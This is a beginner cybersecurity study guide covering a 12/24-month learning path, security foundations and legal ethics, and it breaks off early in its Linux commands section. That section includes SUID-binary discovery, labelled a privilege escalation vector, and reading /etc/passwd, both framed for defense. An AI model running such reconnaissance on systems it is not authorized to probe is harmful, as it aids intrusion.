# Cybersecurity Master Guide — Zero to World-Class (Big Tech & Government)

> **Audience:** Complete beginners with zero cybersecurity background.  
> **Goal:** Become a **world-class** security engineer — deep technical skill, offensive + defensive mastery, cloud/identity/DevSecOps, and executive-ready communication.  
> **Format:** 21 parts (0–20), system-design guide style — tables, diagrams, case studies, Wireshark deep dive, 24-month mastery path.

---

## Table of Contents

- [Part 0: How to Use + 12-Month Study Path](#part-0-how-to-use--12-month-study-path)
- [Part 1: Never Forget Foundations](#part-1-never-forget-foundations)
- [Part 2: Linux for Security Engineers](#part-2-linux-for-security-engineers)
- [Part 3: Environment Setup & Configs](#part-3-environment-setup--configs) (includes **Wireshark complete guide**)
- [Part 4: Networking Essentials for Security](#part-4-networking-essentials-for-security)
- [Part 5: Cryptography](#part-5-cryptography)
- [Part 6: Web Application Security](#part-6-web-application-security)
- [Part 7: Scripting for Security](#part-7-scripting-for-security)
- [Part 8: Ethical Hacking & Penetration Testing](#part-8-ethical-hacking--penetration-testing)
- [Part 9: Blue Team / SOC / Detection](#part-9-blue-team--soc--detection)
- [Part 10: Cloud Security](#part-10-cloud-security)
- [Part 11: Government & Compliance](#part-11-government--compliance)
- [Part 12: Big Tech Career](#part-12-big-tech-career)
- [Part 13: Master Cheat Sheet + Quick Reference](#part-13-master-cheat-sheet--quick-reference)
- [Part 14: Windows & Active Directory Security](#part-14-windows--active-directory-security)
- [Part 15: Threat Hunting & Threat Intelligence](#part-15-threat-hunting--threat-intelligence)
- [Part 16: Malware Analysis & Memory Forensics (Foundations)](#part-16-malware-analysis--memory-forensics-foundations)
- [Part 17: DevSecOps & Supply Chain Security](#part-17-devsecops--supply-chain-security)
- [Part 18: Zero Trust Architecture](#part-18-zero-trust-architecture)
- [Part 19: Multi-Cloud & Kubernetes Security (Advanced)](#part-19-multi-cloud--kubernetes-security-advanced)
- [Part 20: World-Class Operator Mindset](#part-20-world-class-operator-mindset)

---

# Part 0: How to Use + 12-Month Study Path

## How to Use This Guide

This guide is designed as a **linear curriculum** with optional **branch tracks**. Read Part 0 and Part 1 first — they anchor everything else. Parts 2–3 are hands-on prerequisites. Parts 4–11 are domain depth. Parts 12–13 are career and reference. **Parts 14–20** extend the **World-Class Track** — Active Directory, threat hunting, malware analysis, DevSecOps, zero trust, multi-cloud/Kubernetes, and elite operator mindset for practitioners targeting principal-level roles, purple team leadership, or specialized IC/government paths after completing the 12-month foundations.

### Reading Modes

| Mode | Who | How |
|------|-----|-----|
| **Foundation Sprint** | Absolute beginner | Parts 0→1→2→3→4→5, then pick one offensive or defensive track |
| **Offensive Track** | Aspiring pentester / red team | Parts 6→7→8, with Part 9 for detection awareness |
| **Defensive Track** | SOC / blue team / IR | Parts 9→10→11, with Part 8 for attacker mindset |
| **Government Track** | Fed/cleared roles | Parts 11 first after foundations, then 9→10 |
| **Big Tech Track** | FAANG-style security engineer | Parts 5→6→9→10→12, heavy on scripting and cloud |

### Study Principles

1. **Lab everything.** Reading without doing is theater. Every command in Part 2 should be typed in a VM.
2. **Write reports.** After every lab exercise, write a 1-page summary: what you did, what broke, what you learned.
3. **Never attack what you do not own.** See Part 1 legal section. Your career ends the day you cross this line.
4. **Rotate offense and defense.** Pentesters who cannot read SIEM logs miss context. SOC analysts who never exploit miss nuance.
5. **Spaced repetition.** Revisit Part 1 "Never Forget" boxes weekly for the first six months.

### Mind Map: The Cybersecurity Landscape



---

## 12-Month Study Path: Big Tech Track

Designed for roles like **Security Engineer, AppSec Engineer, Cloud Security Engineer** at companies like Google, Meta, Amazon, Microsoft, Apple, Netflix.

### Months 1–2: Foundations + Linux + Lab

| Week | Focus | Deliverable |
|------|-------|-------------|
| 1 | Part 1 (CIA, threat actors, legal) | Written summary of CFAA scope |
| 2 | Part 2 navigation, files, permissions | Lab: harden a directory with chmod/ACLs |
| 3 | Part 2 processes, networking CLI | Lab: trace a suspicious process with `lsof` + `strace` |
| 4 | Part 3 lab setup | Working Kali + Ubuntu Server VMs on isolated network |
| 5 | Part 2 logs, firewall, text processing | Lab: parse auth.log for failed SSH attempts |
| 6 | Part 4 networking cross-ref | Diagram your home lab network |
| 7 | Part 5 crypto basics | Generate TLS cert with OpenSSL, inspect with `openssl s_client` |
| 8 | Review + Part 7 bash scripting | Script: automated log parser |

**Cert target:** Start CompTIA Security+ study (exam in Month 4–5).

### Months 3–4: Web + Scripting

| Week | Focus | Deliverable |
|------|-------|-------------|
| 9 | Part 6 OWASP Top 10 (injection, broken auth) | DVWA or WebGoat lab notes |
| 10 | Part 6 XSS, CSRF, SSRF, headers | Burp Suite walkthrough case study |
| 11 | Part 7 Python (requests, sockets) | Port scanner + HTTP header checker |
| 12 | Part 7 Python (hashing, password strength) | Password audit tool (educational) |
| 13 | Part 8 recon + scanning concepts | Passive OSINT report on a domain you own |
| 14 | Part 8 reporting templates | Write sample exec + technical report |
| 15 | Security+ exam | Certification |
| 16 | Build portfolio project #1 | GitHub: web security scanner or log analyzer |

### Months 5–6: Cloud + Detection

| Week | Focus | Deliverable |
|------|-------|-------------|
| 17 | Part 10 AWS IAM + S3 | Lab: find and fix public bucket misconfig |
| 18 | Part 10 security groups, CloudTrail | Lab: detect unauthorized API call |
| 19 | Part 9 SIEM basics (Elastic) | Write 5 detection queries |
| 20 | Part 9 IR phases | Tabletop exercise write-up |
| 21 | Part 10 Kubernetes basics | Lab: pod security context review |
| 22 | Part 8 case study: cloud misconfig | Full walkthrough write-up |
| 23 | Portfolio project #2 | Cloud security posture checker |
| 24 | Mock interviews (Part 12) | 10 behavioral + 10 technical answers drafted |

### Months 7–8: Depth + AppSec

| Week | Focus | Deliverable |
|------|-------|-------------|
| 25 | Part 6 JWT, cookies, session management | Lab: identify token flaws |
| 26 | Part 5 TLS deep dive | Document a full TLS 1.3 handshake |
| 27 | Part 8 web app case study | Full pentest report on intentionally vulnerable app |
| 28 | Part 9 YARA + Sigma intro | Write 2 detection rules |
| 29 | Bug bounty ethics + safe practice | HackerOne profile, read 20 disclosed reports |
| 30 | OSCP-style lab prep (optional) | 5 HTB machines documented |
| 31 | System design for security | Design secure auth for a SaaS product |
| 32 | Resume + LinkedIn overhaul | 3 bullet points per project with metrics |

### Months 9–10: Interview Prep + Specialization

| Week | Focus | Deliverable |
|------|-------|-------------|
| 33 | Part 12 interview topics | Flash cards for 50 common questions |
| 34 | Coding interviews (Python) | 20 LeetCode medium with security context |
| 35 | AppSec specialization | SAST/DAST tool comparison doc |
| 36 | Cloud specialization | Terraform secure baseline module |
| 37 | Mock onsite simulation | 4-hour block: coding + system design + behavioral |
| 38 | Network with security professionals | 5 informational interviews logged |
| 39 | Apply to internships / junior roles | 20 tailored applications |
| 40 | CISSP study start (if 5yr path) or advanced cert planning | Study schedule |

### Months 11–12: Applications + Advanced Projects

| Week | Focus | Deliverable |
|------|-------|-------------|
| 41 | Open-source contribution | 1 merged PR to a security tool |
| 42 | Part 8 internal network case study | Full report |
| 43 | Advanced cloud: GuardDuty + response automation | SOAR-style playbook |
| 44 | Final portfolio review | README for each project |
| 45 | Interview loop | Track feedback, iterate |
| 46 | Offer negotiation prep | Total comp research doc |
| 47–48 | Continuous learning plan | 2027 roadmap draft |

---

## 12-Month Study Path: Government Track

Designed for roles at **DoD, IC agencies, federal contractors, state/local gov** requiring compliance literacy, clearance awareness, and NIST alignment.

### Months 1–2: Foundations + Compliance Intro

| Week | Focus | Deliverable |
|------|-------|-------------|
| 1 | Part 1 foundations + legal (emphasis: authorized scope) | Memo: why unauthorized testing is a felony |
| 2 | Part 11 NIST CSF overview | Map CSF functions to your lab |
| 3 | Part 2 Linux comprehensive | Complete Part 2 command labs |
| 4 | Part 3 environment setup | STIG-aware Ubuntu baseline notes |
| 5 | Part 11 NIST 800-53 intro | Match 10 controls to technical implementations |
| 6 | Part 4 networking | IP schema doc for lab enclave |
| 7 | Part 5 cryptography | FIPS 140-3 awareness summary |
| 8 | Security+ study + exam | Certification (required for many gov roles) |

### Months 3–4: Hardening + Assessment

| Week | Focus | Deliverable |
|------|-------|-------------|
| 9 | Part 11 STIGs | Apply OpenSCAP to a RHEL/Ubuntu VM |
| 10 | Part 3 sshd hardening, fail2ban, sudoers | STIG-aligned sshd_config |
| 11 | Part 9 auditd + log management | Audit rule set for privilege escalation |
| 12 | Part 9 IR (NIST SP 800-61) | IR plan template for fictional agency |
| 13 | Part 10 cloud (FedRAMP lens) | Compare AWS GovCloud vs commercial |
| 14 | Part 8 vuln assessment (not exploitation) | Nessus/OpenVAS scan report |
| 15 | Part 11 FISMA + FedRAMP | Authorization boundary diagram |
| 16 | Clearance process research | SF-86 section-by-section notes |

### Months 5–6: SOC + Zero Trust

| Week | Focus | Deliverable |
|------|-------|-------------|
| 17 | Part 9 SIEM (Splunk or Elastic) | 10 correlation searches |
| 18 | Part 9 IOCs + threat intel basics | STIX/TAXII overview doc |
| 19 | Part 11 zero trust for gov | NIST 800-207 principles mapped to controls |
| 20 | Part 9 forensics chain of custody | Evidence handling SOP |
| 21 | Part 10 AWS (gov context) | CloudTrail + GuardDuty detection lab |
| 22 | Part 7 scripting for automation | Bash: compliance check script |
| 23 | Tabletop: ransomware on agency network | After-action report |
| 24 | CISSP or CISM study planning | Choose based on career target |

### Months 7–8: RMF + Advanced Gov Topics

| Week | Focus | Deliverable |
|------|-------|-------------|
| 25 | Part 11 RMF (NIST 800-37) | Complete RMF step chart with artifacts |
| 26 | Part 11 800-53 control families deep dive | Control implementation sheet (AC, AU, SI, SC) |
| 27 | Part 8 reporting (gov audience) | POA&M-style finding write-up |
| 28 | Part 9 EDR overview | Compare CrowdStrike vs Defender for gov |
| 29 | Part 10 multi-cloud gov considerations | IL4/IL5 awareness (conceptual) |
| 30 | Polygraph/clearance lifestyle prep | Personal security hygiene checklist |
| 31 | Gov contractor vs GS vs military path | Decision matrix |
| 32 | Resume for gov (no classified details) | Tailored resume v1 |

### Months 9–10: Certifications + Applications

| Week | Focus | Deliverable |
|------|-------|-------------|
| 33 | CEH or CySA+ (choose one) | Exam prep schedule |
| 34 | GIAC awareness (GSEC, GCIH paths) | Cert ROI analysis |
| 35 | USAJobs profile optimization | Profile complete with keywords |
| 36 | Contractor portals (ClearanceJobs, etc.) | Profiles created |
| 37 | Part 12 interview prep (gov behavioral) | STAR stories for integrity, teamwork |
| 38 | Mock interview: explain RMF to a manager | Record and review |
| 39 | Networking: ISSA, AFCEA, local chapters | Attend 2 events |
| 40 | Certification exam | CEH or CySA+ |

### Months 11–12: Clearance + Job Search

| Week | Focus | Deliverable |
|------|-------|-------------|
| 41 | SF-86 preparation (if applicable) | Document review with sponsor guidance |
| 42 | Advanced STIG automation | Ansible playbook for 5 STIG checks |
| 43 | Part 8 case study: internal network (defensive lens) | Detection-focused report |
| 44 | Part 11 continuous monitoring (ConMon) | ConMon plan outline |
| 45 | Apply: 15 gov/contractor roles | Application tracker |
| 46 | CISSP study (if eligible) or CAP prep | Study materials organized |
| 47–48 | Long-term clearance career plan | 5-year roadmap |

---

## Weekly Time Budget

| Experience Level | Hours/Week | Split |
|------------------|------------|-------|
| Full-time student | 15–20 | 60% lab, 25% reading, 15% writing |
| Working professional | 8–12 | 50% lab, 30% reading, 20% writing |
| Career switcher (bootcamp pace) | 25–30 | 70% lab, 20% reading, 10% writing |

---

## Lab Safety Rules (Non-Negotiable)

1. Use **isolated virtual networks** — never bridge lab VMs to production LAN without a firewall.
2. Snapshot VMs before every exercise.
3. Use **only targets you own** or explicit written authorization (HTB, TryHackMe, DVWA local).
4. Never store real credentials in Git repos.
5. Encrypt lab disks if they contain attack tooling (some jurisdictions care).

---

## 24-Month World-Class Mastery Path

Designed for practitioners who completed the 12-month Big Tech or Government track and want **principal-level breadth**: AD compromise detection, proactive hunting, malware triage, supply chain defense, zero trust architecture, and multi-cloud operations. Expect **10–15 hours/week** in Year 2.

### Quarterly Milestones

| Quarter | Months | Focus Parts | Milestone Deliverable |
|---------|--------|-------------|----------------------|
| **Q1** | 13–15 | Part 14 (AD), Part 15 intro | Build AD lab (2 DCs, 1 workstation); detect Kerberoasting in lab logs; write 3 Sigma rules |
| **Q2** | 16–18 | Part 15 (hunting), Part 16 | Complete 5 hypothesis-driven hunts mapped to ATT&CK; triage 10 malware samples in isolated VM; publish hunt write-up |
| **Q3** | 19–21 | Part 17 (DevSecOps), Part 18 | Secure CI/CD pipeline with SAST/SCA/SBOM; design zero trust architecture doc for fictional org; cosign container images |
| **Q4** | 22–24 | Part 19 (multi-cloud/K8s), Part 20 | Harden EKS/GKE cluster with NetworkPolicy + RBAC; purple team exercise report; executive briefing deck; portfolio of 20 lab projects reviewed |

### Year 2 Reading Order



### Certification Progression (World-Class Track)

| Phase | Target Cert | When | Prerequisite |
|-------|-------------|------|--------------|
| Foundation | Security+ / CySA+ | Month 4–6 (Year 1) | Parts 1–9 |
| Offensive depth | OSCP | Month 10–14 (Year 1) | Parts 7–8 labs |
| Advanced offensive | OSED / CRTO | Month 18–22 (Year 2) | OSCP + Part 14 |
| Incident response | GCIH / GCFA | Month 20–24 (Year 2) | Parts 9, 15, 16 |
| Architecture | CISSP | Month 24+ | 5 years experience or equivalent |
| Specialization | GIAC (GPEN, GNFA, GCSA) | Ongoing | Role-dependent |

> **Never Forget:** World-class is not "know every tool." It is **depth in your specialty + enough breadth to collaborate across teams + the communication skills to influence decisions.**

### Weekly Habits (Year 2)

| Day | Activity | Time |
|-----|----------|------|
| Mon | Read one threat intel report (vendor or CISA) | 30 min |
| Tue | Lab: AD, hunting, or malware (rotate weekly) | 2 hr |
| Wed | Write detection rule or hunt hypothesis | 1 hr |
| Thu | Purple team reading / ATT&CK mapping | 45 min |
| Fri | Portfolio documentation or blog draft | 1 hr |
| Sat | Deep lab block (HTB Pro, CRTE prep, or home lab) | 3–4 hr |
| Sun | Review Never Forget boxes + spaced repetition | 30 min |

---

# Part 1: Never Forget Foundations

## The CIA Triad

The CIA triad is the **North Star** of information security. Every control, every tool, every policy maps back to one or more of these three properties.

| Property | Definition | Real-World Analogy | Example Control |
|----------|------------|--------------------|-----------------|
| **Confidentiality** | Data accessible only to authorized parties | A sealed envelope only the recipient opens | Encryption, access controls, need-to-know |
| **Integrity** | Data is accurate and unaltered | A notarized document — tampering is detectable | Hashing, digital signatures, file integrity monitoring |
| **Availability** | Systems and data accessible when needed | A 24/7 hospital ER — downtime costs lives | Redundancy, DDoS mitigation, backups |

### Extended Properties (Deeper Models)

| Property | Definition | When It Matters |
|----------|------------|-----------------|
| **Authenticity** | Confirming identity of users/systems | Zero trust, MFA, certificate validation |
| **Non-repudiation** | Actor cannot deny an action | Digital signatures, audit logs |
| **Accountability** | Actions traceable to an individual | Logging, attribution, IAM |
| **Privacy** | Control over personal data | GDPR, HIPAA, data minimization |

> **Never Forget:** Security is not "confidentiality only." A system can be perfectly encrypted (confidential) but useless if it is down (availability) or silently corrupted (integrity).

### Worked Example: Online Banking

```
Scenario: User transfers $500 via mobile banking app.

Confidentiality: TLS encrypts the transaction in transit; account data stored encrypted at rest.
Integrity: Transaction signed; server validates balance hasn't been tampered with.
Availability: Load balancers, failover DB, DDoS protection keep app online during peak hours.

Attack mapping:
- Sniffing unencrypted traffic → breaks Confidentiality
- MITM altering transfer amount → breaks Integrity
- DDoS on bank servers → breaks Availability
```

---

## AAA: Authentication, Authorization, Accounting

| Component | Question Answered | Example |
|-----------|-------------------|---------|
| **Authentication** | Who are you? | Username + password, MFA, biometrics, certificate |
| **Authorization** | What are you allowed to do? | RBAC, ACLs, OAuth scopes |
| **Accounting** | What did you do? | Audit logs, session recording, billing meters |



> **Never Forget:** Authentication is not authorization. Logging in successfully does not mean you can access every file on the server.

### Common Authentication Factors

| Factor | Type | Examples | Weakness |
|--------|------|----------|----------|
| Something you **know** | Knowledge | Password, PIN | Phishing, reuse, guessing |
| Something you **have** | Possession | Hardware token, phone OTP | Theft, SIM swap |
| Something you **are** | Inherence | Fingerprint, face | Spoofing, irreversible if compromised |

---

## Defense in Depth

Defense in depth means **layered controls** so that if one layer fails, others still protect the asset. Think of a medieval castle: moat, outer wall, inner wall, guard towers, locked treasury.



| Layer | Controls | Security Use Case |
|-------|----------|-------------------|
| Physical | Badge access, cameras | Prevent unauthorized hardware access |
| Network | VLANs, firewalls, IDS | Contain lateral movement |
| Host | Patching, EDR, AppArmor | Detect malware on endpoint |
| Application | Input validation, WAF | Block SQL injection at app layer |
| Data | Encryption, DLP | Protect data even if stolen |
| Identity | MFA, least privilege | Limit blast radius of stolen creds |
| Monitoring | SIEM, alerting | Detect breach in progress |
| Recovery | Backups, IR playbooks | Restore after incident |

> **Never Forget:** A single "silver bullet" product (one firewall, one AV) is not defense in depth. Depth means **independent** layers.

---

## The Cyber Kill Chain (Lockheed Martin)

The kill chain models **how attackers progress** from initial reconnaissance to achieving their objective. Defenders use it to **disrupt early stages** before damage occurs.

| Stage | Attacker Action | Defender Countermeasure |
|-------|-----------------|-------------------------|
| 1. Reconnaissance | Gather info on target | Minimize public footprint, threat intel |
| 2. Weaponization | Create exploit + payload | Patch management, secure SDLC |
| 3. Delivery | Send phishing email, drive-by download | Email filtering, user training |
| 4. Exploitation | Trigger vulnerability | Patching, ASLR, DEP |
| 5. Installation | Install backdoor/persistence | EDR, application whitelisting |
| 6. Command & Control | Communicate with attacker server | Network monitoring, DNS filtering |
| 7. Actions on Objectives | Exfiltrate data, encrypt files | DLP, backups, IR |



> **Never Forget:** Breaking **any single stage** can stop the attack. You do not need perfect defense at every stage — prioritize early stages (recon, delivery, exploitation) for maximum ROI.

---

## MITRE ATT&CK Overview

MITRE ATT&CK is a **knowledge base of adversary tactics and techniques** based on real-world observations. Unlike the kill chain (linear), ATT&CK is organized by **tactics** (the "why") and **techniques** (the "how").

### Enterprise Tactics (14)

| ID | Tactic | Description |
|----|--------|-------------|
| TA0043 | Reconnaissance | Gathering information |
| TA0042 | Resource Development | Establishing infrastructure |
| TA0001 | Initial Access | Getting into the network |
| TA0002 | Execution | Running malicious code |
| TA0003 | Persistence | Maintaining foothold |
| TA0004 | Privilege Escalation | Gaining higher privileges |
| TA0005 | Defense Evasion | Avoiding detection |
| TA0006 | Credential Access | Stealing credentials |
| TA0007 | Discovery | Learning the environment |
| TA0008 | Lateral Movement | Moving through network |
| TA0009 | Collection | Gathering target data |
| TA0011 | Command and Control | Communicating with systems |
| TA0010 | Exfiltration | Stealing data |
| TA0040 | Impact | Disruption, destruction |

### Example Technique Mapping

| Technique ID | Name | Example |
|--------------|------|---------|
| T1566 | Phishing | Spearphishing attachment |
| T1059 | Command and Scripting Interpreter | PowerShell execution |
| T1003 | OS Credential Dumping | LSASS memory dump |
| T1021 | Remote Services | RDP lateral movement |
| T1486 | Data Encrypted for Impact | Ransomware |



### Using ATT&CK Practically

| Role | How to Use ATT&CK |
|------|-------------------|
| Red team | Plan engagement coverage matrix |
| Blue team | Map detection rules to techniques |
| Threat intel | Attribute campaigns to groups (APT29, FIN7) |
| Management | Communicate risk in standardized language |

> **Never Forget:** ATT&CK is not a checklist to "complete." It is a **shared vocabulary** so red and blue teams speak the same language.

---

## Threat Actors

Understanding **who** attacks and **why** shapes your defensive priorities.

| Actor Type | Skill | Motivation | Typical Targets | Example TTPs |
|------------|-------|------------|-----------------|--------------|
| **Script Kiddie** | Low | Curiosity, bragging | Random websites, poorly secured servers | Known exploit scripts, defacement |
| **Hacktivist** | Low–Medium | Political/social cause | Government, corporations | DDoS, data leaks, website defacement |
| **Cybercriminal** | Medium–High | Financial gain | Banks, retailers, healthcare | Ransomware, phishing, card fraud |
| **Insider Threat** | Varies | Revenge, profit, ideology | Own organization | Data exfiltration, sabotage |
| **Organized Crime** | High | Profit at scale | Financial sector, crypto | BEC, ransomware-as-a-service |
| **Nation-State (APT)** | Very High | Espionage, disruption, warfare | Critical infrastructure, defense, tech | Zero-days, supply chain, long dwell time |

### Nation-State Groups (Awareness Level)

| Group | Attribution | Known For |
|-------|-------------|-----------|
| APT29 (Cozy Bear) | Russia (SVR) | SolarWinds supply chain |
| APT28 (Fancy Bear) | Russia (GRU) | DNC hack, Olympic Destroyer |
| APT41 | China | Dual espionage + financial |
| Lazarus Group | North Korea | Sony hack, cryptocurrency theft |
| APT33 | Iran | Aviation, energy sector targeting |

> **Never Forget:** Threat modeling starts with **who wants your data and why**. A script kiddie and APT29 require completely different defense investments.

---

## Legal and Ethical Boundaries

**This section can save your career and keep you out of prison.**

### Computer Fraud and Abuse Act (CFAA) — United States

The CFAA (18 U.S.C. § 1030) criminalizes unauthorized access to computer systems. Key concepts:

| Concept | Meaning |
|---------|---------|
| **Authorization** | Explicit permission to access a system |
| **Exceeding authorized access** | Using permitted access for unauthorized purposes |
| **Without authorization** | No permission at all — includes exceeding scope |

**What requires authorization:**
- Penetration testing
- Vulnerability scanning of systems you do not own
- Accessing data beyond your job role
- Bypassing technical controls (even "just to see if it works")

**What is generally legal:**
- Testing systems you own
- Platforms with explicit permission (HTB, Bug Bounty programs with scope)
- Research on isolated lab environments
- Reading publicly available information (passive recon on public DNS, etc.)

### Rules of Engagement (ROE)

Before any authorized security assessment, ROE must be documented:

| ROE Element | Description |
|-------------|-------------|
| **Scope** | IP ranges, domains, applications in scope |
| **Out of scope** | Production databases, third-party systems, DoS |
| **Timing** | Allowed testing windows |
| **Methods** | Permitted techniques (social engineering yes/no) |
| **Contacts** | Emergency stop contact |
| **Data handling** | How findings and captured data are stored/destroyed |

### Ethical Principles

1. **Do no harm.** Minimize disruption. Have rollback plans.
2. **Protect findings.** Vulnerability reports are sensitive — encrypt, limit distribution.
3. **Disclose responsibly.** Give vendors reasonable time to patch before public disclosure.
4. **Stay in scope.** "I found another vuln outside scope" — report through proper channel, do not exploit.
5. **Document everything.** Your notes are legal evidence of authorized activity.

> **Never Forget:** "I was just learning" is not a legal defense. **Unauthorized access is a crime** regardless of intent.

### International Considerations

| Region | Key Law |
|--------|---------|
| EU | GDPR (data protection), NIS2 Directive |
| UK | Computer Misuse Act 1990 |
| Australia | Cybercrime Act 2001 |
| Global | Local laws vary — always check jurisdiction |

---

## Foundation Knowledge Check

Answer these without looking back:

1. Name the three CIA triad properties and one control for each.
2. What is the difference between authentication and authorization?
3. Name three kill chain stages and a countermeasure for each.
4. What ATT&CK tactic covers ransomware deployment?
5. Why is a signed penetration test ROE necessary?
6. What is the difference between a script kiddie and an APT?

---

# Part 2: Linux for Security Engineers

Linux is the **operating system of the internet, cloud, and security tooling**. Every security engineer must be comfortable on the command line. This section covers commands with **explanation**, **example**, and **security use case** for each.

---

## Navigation and Files

### pwd — Print Working Directory

**What:** Shows your current directory path.

```bash
pwd
# Output: /home/analyst
```

**Security use case:** Confirm you are in the correct directory before destructive operations (rm, chmod). In forensics, document exact paths in chain of custody.

### cd — Change Directory

```bash
cd /var/log          # Absolute path
cd ..                # Parent directory
cd ~                 # Home directory
cd -                 # Previous directory
```

**Security use case:** Navigate to log directories during incident response.

### ls — List Directory Contents

```bash
ls -la /etc/ssh/
# -l: long format (permissions, owner, size, date)
# -a: show hidden files (dotfiles)
# -h: human-readable sizes
```

**Security use case:** Identify world-writable files, unexpected hidden files (`.backdoor`), SUID binaries.

### find — Search Filesystem

```bash
# Find files modified in last 24 hours
find /var/www -mtime -1 -type f

# Find SUID files (privilege escalation vector)
find / -perm -4000 -type f 2>/dev/null

# Find world-writable files
find / -perm -002 -type f 2>/dev/null

# Find files by name
find / -name "*.php" -path "*/uploads/*" 2>/dev/null
```

**Security use case:** Hunt for persistence mechanisms, webshells, SUID abuse vectors during incident response.

### cp, mv, rm — Copy, Move, Remove

```bash
cp -a evidence/original/ /cases/case001/evidence/   # -a: archive mode preserves metadata
mv suspicious.sh /quarantine/
rm -i accidental.txt   # -i: interactive confirmation
```

**Security use case:** Preserve evidence with metadata intact (`cp -a`). Never `rm` evidence — move to quarantine.

### touch, mkdir — Create Files and Directories

```bash
mkdir -p /cases/2026-001/{evidence,notes,reports}
touch /cases/2026-001/notes/timeline.txt
```

### cat, less, head, tail — Read Files

```bash
cat /etc/passwd
less /var/log/auth.log          # Scrollable; q to quit
head -20 /var/log/syslog        # First 20 lines
tail -f /var/log/auth.log       # Follow live (critical for IR)
tail -n 100 /var/log/apache2/access.log
```

